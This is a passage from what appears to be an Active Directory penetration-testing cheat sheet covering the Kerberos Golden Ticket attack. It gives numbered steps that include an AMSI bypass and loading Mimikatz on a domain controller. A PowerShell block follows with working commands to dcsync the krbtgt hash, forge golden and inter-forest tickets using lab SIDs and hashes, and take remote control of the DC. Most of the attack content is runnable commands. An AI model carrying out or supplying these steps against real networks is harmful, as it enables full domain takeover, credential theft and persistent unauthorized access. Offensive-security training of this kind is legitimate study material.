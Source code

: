    ```

## Kerberos Attacks

### Golden Ticket

1. Get a Powershell session as a "domain admin" using "Over pass the hash" attack
2. Create a New-PSSession attaching to the "domain controller"
3. Enter the new session using Enter-PSSession
4. Bypass the AMSI
5. Exit
6. Load Mimikatz.ps1 on the new session using Invoke-command
7. Enter the new session using Enter-PSSession again
8. Now we can execute mimikatz on the DC
9. Keep note of krbtgt hash
10. Now go to any "non domain admin" account
11. Load Mimikats.ps1
12. Now we can create a ticket using the DC krbtgt hash
13. Now we can access any service on the DC; Example ls \\dc-corp\C$ or
	```PsExec64.exe \\test.local -u Domain\user -p Passw0rd! cmd```



```powershell
# Persistance technique for creating fake TGT ticket using KDC account hash (krbtgt)

# Get Domain Detals
Get-Domain | select name
us.techcorp.local

Get-DomainSID
S-1-5-21-210670787-2521448726-163245708

# Fetch krbtgt ntlm and aes hash
Invoke-Mimi -Command '"lsadump::dcsync /user:krbtgt"'

# Use above details to create a golden ticket impersonating Administrator user
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ticket:golden_tkt.kirbi"'

# Forge the inter-forest TGT
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:ad.domain.local /sid:<sid> /rc4:<rc4-hash> /service:krbtgt /target:domain2.local /ticket:C:\temp\trust_forest_tkt.kirbi"'

C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

# Use Golden Ticket to gain RCE on DC
klist
Enter-PSSession -ComputerName us-dc
```
